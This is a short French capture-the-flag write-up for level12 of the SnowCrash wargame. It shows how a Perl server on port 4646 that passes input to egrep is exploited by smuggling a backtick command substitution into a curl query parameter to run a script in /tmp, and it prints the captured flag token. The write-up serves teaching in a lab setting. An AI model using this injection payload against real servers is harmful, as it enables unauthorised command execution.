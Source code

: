 # Level12

Nous arrivons sur le home de l'utilisateur et nous y trouvons un fichier `level12.pl`.
Le script est un serveur qui ecoute sur le port 4646.
Nous pouvons voir que le serveur utilise egrep.
```
level12@SnowCrash:~$ echo '#!/bin/bash
> /bin/getflag > /tmp/flag12' > /tmp/SCRIPT12
level12@SnowCrash:~$ chmod 777 /tmp/SCRIPT12
level12@SnowCrash:~$ curl localhost:4646/?x='`/*/SCRIPT12`'
..level12@SnowCrash:~$ cat /tmp/flag12
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
Le fichier doit forcement etre en majuscule, car il y a une regex qui passe en uppercase l'argument x, (l'argument y n'est pas utilisé).
Dans le curl nous pouvons donner l'argument en minuscule si nous le souhaitons.
